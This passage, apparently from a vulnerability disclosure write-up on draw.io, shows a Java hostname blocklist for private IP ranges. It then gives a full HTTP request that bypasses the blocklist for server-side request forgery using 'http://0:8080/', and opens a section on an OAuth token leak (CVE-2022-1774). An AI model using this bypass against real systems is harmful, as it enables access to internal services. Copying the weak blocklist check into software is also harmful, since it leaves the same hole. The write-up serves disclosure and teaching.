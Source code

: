 ```java
     && !host.startsWith("172.28.") // 172.16.0.0/12
     && !host.startsWith("172.29.") // 172.16.0.0/12
     && !host.startsWith("172.30.") // 172.16.0.0/12
     && !host.startsWith("172.31.") // 172.16.0.0/12
     && !host.startsWith("192.0.0.") // 192.0.0.0/24
     && !host.startsWith("192.168.") // 192.168.0.0/16
     && !host.startsWith("198.18.") // 198.18.0.0/15
     && !host.startsWith("198.19.") // 198.18.0.0/15
     && !host.endsWith(".arpa"); // reverse domain (needed?)
   }
   catch (MalformedURLException e)
   {
    return false;
   }
  }
  else
  {
   return false;
  }
 }
```

The function does a series of checking to assure that the url is not internal, and of course this has a LOT of bypasses. I went with the simple `http://0:8080/` , see more at https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

```http
GET /proxy?url=http%3a//0:8080/ HTTP/1.1
Host: 127.0.0.1:8080
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
sec-ch-ua-platform: "macOS"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/?mode=device&title=Untitled%20Diagram.drawio.xml&create=https%3A%2F%2Fxcd8bz39zlnis2ngq84j05tt7kda1z.oastify.com%2F&sync=manual&db=0&gh=0&tr=0&gapi=0&od=0&gl=0
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

Not much to add here, just a simple SSRF bypass.

## Leakage of third-party OAuth token - CVE-2022-1774

As the `*AuthServelet.java` files grabbed my attention, I began to inspect the Github OAuth authentication process of draw.io dynamically, doing all the proccess and checking the requests.
